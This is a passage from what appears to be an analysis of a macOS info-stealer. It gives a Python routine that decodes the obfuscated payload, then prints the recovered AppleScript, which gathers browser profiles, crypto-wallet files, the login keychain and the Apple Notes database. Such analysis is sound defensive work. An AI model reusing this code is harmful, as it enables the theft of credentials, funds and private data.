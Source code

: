 ```python
def populate_lookup_table(input_string):
    input_bytes = input_string.encode("utf-8")
    lookup_table = [0xFFFFFFFF] * 256

    for i in range(0, len(input_bytes), 4):
        for j in range(min(4, len(input_bytes) - i)):  
            byte_value = input_bytes[i + j]
            lookup_table[byte_value] = i + j

    return lookup_table

def use_lookup_table_from_hex(hex_string, lookup_table):
    input_bytes = bytes.fromhex(hex_string)
    composite_value = 0

    for byte in input_bytes:
        table_value = lookup_table[byte]
        composite_value = (composite_value << 6) | table_value

    return composite_value

arg3 = "ndh3M@pWfiQzBKVlu0!g>+(7U1RSsoL=tHqO)9<2y5wj8T_$kZe%CYmIDv-A4XG#"

lookup_table = populate_lookup_table(arg3)

hex_string = "31686..."

result = use_lookup_table_from_hex(hex_string, lookup_table)

print("Decoded Value", bytes.fromhex(str(hex(result))[2:]).decode("utf-8"))
```

This yields the decrypted AppleScript payload!

### Grabbing Information

```
set chromiumMap to {{"Chrome", library & "Google/Chrome/"}, {"Brave", library & "BraveSoftware/Brave-Browser/"}, {"Edge", library & "Microsoft Edge/"}, {"Vivaldi", library & "Vivaldi/"}, {"Opera", library & "com.operasoftware.Opera/"}, {"OperaGX", library & "com.operasoftware.OperaGX/"}, {"Chrome Beta", library & "Google/Chrome Beta/"}, {"Chrome Canary", library & "Google/Chrome Canary"}, {"Chromium", library & "Chromium/"}, {"Chrome Dev", library & "Google/Chrome Dev/"}, {"Arc", library & "Arc/"}, {"Coccoc", library & "Coccoc/"}}
set walletMap to {{"deskwallets/Electrum", profile & "/.electrum/wallets/"}, {"deskwallets/Coinomi", library & "Coinomi/wallets/"}, {"deskwallets/Exodus", library & "Exodus/"}, {"deskwallets/Atomic", library & "atomic/Local Storage/leveldb/"}, {"deskwallets/Wasabi", profile & "/.walletwasabi/client/Wallets/"}, {"deskwallets/Ledger_Live", library & "Ledger Live/"}, {"deskwallets/Monero", profile & "/Monero/wallets/"}, {"deskwallets/Bitcoin_Core", library & "Bitcoin/wallets/"}, {"deskwallets/Litecoin_Core", library & "Litecoin/wallets/"}, {"deskwallets/Dash_Core", library & "DashCore/wallets/"}, {"deskwallets/Electrum_LTC", profile & "/.electrum-ltc/wallets/"}, {"deskwallets/Electron_Cash", profile & "/.electron-cash/wallets/"}, {"deskwallets/Guarda", library & "Guarda/"}, {"deskwallets/Dogecoin_Core", library & "Dogecoin/wallets/"}, {"deskwallets/Trezor_Suite", library & "@trezor/suite-desktop/"}}
readwrite(library & "Binance/app-store.json", writemind & "deskwallets/Binance/app-store.json")
readwrite(library & "@tonkeeper/desktop/config.json", "deskwallets/TonKeeper/config.json")
readwrite(profile & "/Library/Keychains/login.keychain-db", writemind & "keychain")
if release then
	readwrite2(profile & "/Library/Group Containers/group.com.apple.notes/NoteStore.sqlite", writemind & "FileGrabber/NoteStore.sqlite")
	readwrite2(profile & "/Library/Group Containers/group.com.apple.notes/NoteStore.sqlite-wal", writemind & "FileGrabber/NoteStore.sqlite-wal")
	readwrite2(profile & "/Library/Group Containers/group.com.apple.notes/NoteStore.sqlite-shm", writemind & "FileGrabber/NoteStore.sqlite-shm")
```